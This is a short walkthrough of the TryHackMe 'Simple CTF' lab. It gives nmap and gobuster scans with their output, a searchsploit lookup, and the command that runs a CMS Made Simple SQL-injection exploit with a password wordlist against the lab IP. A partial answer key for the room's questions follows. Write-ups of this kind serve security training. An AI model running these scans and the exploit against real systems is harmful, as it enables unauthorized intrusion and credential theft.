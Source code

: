 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


#### nmap scan
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`



#### search for exploits

`searchsploit cms made simple`

```
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                                                                      | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection <------- Using this one                                                                                                                                                     | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target
`/usr/bin/python2 exploit.py -u http://10.10.90.196 --crack -w /usr/share/wordlists/rockyou.txt`


---
#### Key:


Q: How many services are running under port 1000?

2

Q: What is running on the higher port?

SSH




Q: What's the CVE you're using against the application?
Q: To what kind of vulnerability is the application vulnerable?
Q: What's the password?
Q: Where can you login with the details obtained?
Q: What's the user flag?
Q: Is there any other user in the home directory? 
Q: What's its name?
Q: What can you leverage to spawn a privileged shell?